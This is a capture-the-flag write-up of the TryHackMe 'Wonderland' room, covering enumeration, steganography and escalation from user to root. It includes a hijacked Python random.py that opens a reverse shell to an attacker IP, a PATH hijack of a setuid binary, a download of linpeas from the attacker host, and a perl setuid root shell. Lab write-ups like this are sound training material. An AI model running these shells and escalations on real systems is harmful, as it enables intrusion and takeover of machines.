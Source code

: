 # TryHackMe - Wonderland - Linux

- [room](https://tryhackme.com/room/wonderland)

## Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=3/31%OT=22%CT=1%CU=39160%PV=Y%DS=4%DC=I%G=Y%TM=6245C38
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 729.87 seconds
```

## Port 80

- Let's run Gobuster
```
┌──(root💀kali)-[~]
└─# gobuster dir -u http://10.10.229.155/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.229.155/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/31 11:22:01 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/poem                 (Status: 301) [Size: 0] [--> poem/]
/r                    (Status: 301) [Size: 0] [--> r/]   
                                                         
===============================================================
2022/03/31 11:31:29 Finished
===============================================================
```
- On /poem we have The Jabberwocky poem  
![image](https://user-images.githubusercontent.com/96747355/161145799-79de6b1d-0d51-417c-94bd-9538e36b8b73.png)  
- On /r we have nothing interesting
- On /img there are some images
- Let's modify our /etc/hosts and add this `10.10.95.114 wonderland`
- Now we can use gobuster for subdomain enumeration as well (it does not five anything but it was worth a try)
- Let's have a closer look to the images.
- First lets take the rabbit one As it is written pretty much everywhere to follow the white rabbit.
```
┌──(root💀kali)-[~/Documents/tryhackme/wonderland]
└─# steghide --info white_rabbit_1.jpg         
"white_rabbit_1.jpg":
  format: jpeg
  capacity: 99.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hint.txt":
    size: 22.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```
- It asks for a passphrase but there is no need to enter anything you can just type enter.
- And we can see that a hint is embeded in the image, lets extract it ` steghide --extract -sf white_rabbit_1.jpg`sf will specify it is a stego file.
- Here is the hint
```
┌──(root💀kali)-[~/Documents/tryhackme/wonderland]
└─# cat hint.txt     
follow the r a b b i t                                                                                                                                                                                                               
```
In our gobuster there was an r directory. So this probably means that `r a b b i t` is a path that we need to **follow** 
- Indeed at each page we get the follow up fo the story `http://wonderland/r/a/b/b/i/t/`  
![image](https://user-images.githubusercontent.com/96747355/161146081-674e96f8-0d60-42e5-8a5c-e9511e534a20.png)  
- If we look at the code of the last page we get what seems to be user:pass:
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```
- Let's try those on the ssh. It works:
```
alice@wonderland:~$ 
```
- If we check the hint for the user.txt it says everything is upside down so I tried to find a file called `txt.resu` but it was not it, then I realized as we have the root.txt in alice's folder maybe the user.txt is in a the root so I tried a `cat /root/user.txt` 
- And it worked!
- Let's try to become root

## Privilege Escalation

- If we sudo -l using alice password, we get htis
```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
- If we l0ok at the python script it seems to show 10 of any sentence of the poem randomly
```
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
- Having the right to this specific file means that this the way to privesc.
- It seems like we could hijack the python library. I found [this really interesintg article that explains it pretty well](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
- So our walrus script uses the library random.py. I modified it like this to get a reverse shell and I launched it as the user rabbit this way: `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.13.22.56",8888)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```
- And it works we have a shell as rabbit:  
![image](https://user-images.githubusercontent.com/96747355/161157090-1444f291-a4e1-4efc-8373-2706cd00e399.png)  
- With a shell as rabbit we can now have a look at their home folder and we can see this file called teaParty. If we use file on it we get this result:
```
file teaParty
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```
If we launch it it ends with a segfault
```
Probably by Thu, 31 Mar 2022 23:15:41 +0000

Welcome to the tea party!
The Mad Hatter will be here soon.
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

- Let's take a look at it from our attacking machine as we do not have a the strings function in the target machine
- we can serve it using http server of python as it is installed in the machine `python3.6 -m http.server 8888`
- And we take it using wget  
![image](https://user-images.githubusercontent.com/96747355/161159311-d81208ba-f7c3-4003-88fc-6d4bf0fb104d.png)  
- When we look at it with strings we see this line:
```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```
- So date is invoked without using the full path, we could certainly abuse this by putting a file called date and make it do something for us.
- Let's just make it run bash using `/bin/bash`  
![image](https://user-images.githubusercontent.com/96747355/161160256-614b80cc-961a-4eaa-ac3d-bfedf16a90bf.png)  
- Now we serve it from our attacking machine with python and get it in our target
- We have to make it executable with `chmod +x`
- And we need to export rabbit's home as our path 
```
export PATH=/home/rabbit:$PATH
echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

- And now we can run our binary! And it works  
![image](https://user-images.githubusercontent.com/96747355/161160721-3ceaafc0-f471-4c8a-a62e-30df37f6233c.png)  
- We are the mad hatter!! If we go to his home directory we get his password `WhyIsARavenLikeAWritingDesk?` so we can connect as him using ssh:  
![image](https://user-images.githubusercontent.com/96747355/161160960-8886a779-8272-462f-b804-15015a358b5c.png)  

- There are no specific file that caught our attention and sudo -l does not list anything so let's get linepeas and check out what we could do.
- `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64` we run this in our attacking machine
- We serve it using python server `python3 -m http.server 80`
- We dowload it in our target `wget http://10.13.22.56/linpeas_linux_amd64`
- add it execution right with `chmod +x` and run it ./linpeas_linux_amd64
- We have a 95% PE vector:  
![image](https://user-images.githubusercontent.com/96747355/161161958-102231a7-45a4-4127-85ad-5d2851eef10f.png)  
- [This article](https://gtfobins.github.io/gtfobins/perl/#capabilities) shows us a way to abuse this I slightly modified the command to use bash instead of sh `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'` and it works!  
![image](https://user-images.githubusercontent.com/96747355/161162600-29d8758f-f86a-44b6-a5ee-a591236ba6bb.png)  
- We are root and can read our last flag on alice's home!
